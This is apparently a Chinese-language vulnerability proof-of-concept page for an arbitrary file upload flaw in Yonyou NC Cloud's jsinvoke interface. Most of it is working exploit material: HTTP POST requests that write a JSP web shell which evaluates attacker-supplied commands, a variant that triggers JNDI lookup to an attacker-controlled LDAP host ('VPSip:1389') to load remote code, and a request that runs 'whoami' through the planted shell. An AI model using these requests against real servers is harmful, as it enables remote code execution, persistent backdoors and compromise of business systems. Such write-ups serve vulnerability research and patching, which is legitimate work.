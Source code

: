 # 用友 NC Cloud jsinvoke 任意文件上传漏洞

## 漏洞描述

用友 NC Cloud jsinvoke 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件至服务器中，获取系统权限

## 漏洞影响

<a-checkbox checked>用友 NC Cloud</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="用友-NC-Cloud"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1677729078033-1536313c-bfb8-4134-ac84-ddad2b011207-20230809133642723.png)

验证POC

```plain
POST /uapjs/jsinvoke/?action=invoke
Content-Type: application/json

{
    "serviceName":"nc.itf.iufo.IBaseSPService",
    "methodName":"saveXStreamConfig",
    "parameterTypes":[
        "java.lang.Object",
        "java.lang.String"
    ], 
    "parameters":[
        "${param.getClass().forName(param.error).newInstance().eval(param.cmd)}",
        "webapps/nc_web/407.jsp"
    ]
}
POST /uapjs/jsinvoke/?action=invoke HTTP/1.1
Host: 
Connection: Keep-Alive
Content-Length: 253
Content-Type: application/x-www-form-urlencoded


{"serviceName":"nc.itf.iufo.IBaseSPService","methodName":"saveXStreamConfig","parameterTypes":["java.lang.Object","java.lang.String"],"parameters":["${''.getClass().forName('javax.naming.InitialContext').newInstance().lookup('ldap://VPSip:1389/TomcatBypass/TomcatEcho')}","webapps/nc_web/301.jsp"]}
```

![img](../../../.vuepress/public/img/1677729129558-fd90f34f-9bb9-44ce-b779-e7c17578b4a0.png)

```plain
/cmdtest.jsp?error=bsh.Interpreter&cmd=org.apache.commons.io.IOUtils.toString(Runtime.getRuntime().exec(%22whoami%22).getInputStream()) 
```

![img](../../../.vuepress/public/img/1677729209203-afb4acf2-bd48-44fb-af97-aa70c9bcbc2a.png)